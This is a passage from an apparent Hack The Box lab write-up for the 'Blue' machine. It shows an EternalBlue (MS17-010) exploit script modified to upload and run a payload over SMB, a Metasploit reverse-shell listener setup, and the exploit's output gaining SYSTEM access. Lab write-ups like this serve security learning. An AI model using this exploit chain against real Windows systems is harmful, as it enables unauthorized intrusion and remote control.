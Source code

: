 ```
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
 ---->  smb_send_file(smbConn, '/root/Documents/HTB2/Blue/blue.exe', 'C', '/blue.exe')
 ---->  service_exec(conn, r'cmd /c c:\\blue.exe')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```
Now we need to set up our listener. For this we will use Metasploits ```multi/handler```. Set the LHOST and LPORT to your IP and port you chose when generating your payload and then set the apayload for a windows reverse shell. Type exploit to start the handler.
```
msf5 exploit(multi/handler) > set lhost 10.10.14.39
lhost => 10.10.14.39
msf5 exploit(multi/handler) > set lport 9999
lport => 9999
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.39:9999 
```
Now lets execute the python script
```
# python eternalBlue.py 10.10.10.40 ntsvcs
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
No transaction struct in leak data
leak failed... try again
No transaction struct in leak data
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a000915048
InParam: 0xfffff8a00284b15c
MID: 0x4603
unexpected alignment, diff: 0x-1f36fb8
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a0026dd048
InParam: 0xfffff8a00285715c
MID: 0x4607
unexpected alignment, diff: 0x-17afb8
leak failed... try again
CONNECTION: 0xfffffa800405f020
SESSION: 0xfffff8a008df08e0
FLINK: 0xfffff8a002883088
InParam: 0xfffff8a00287d15c
MID: 0x4703
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
```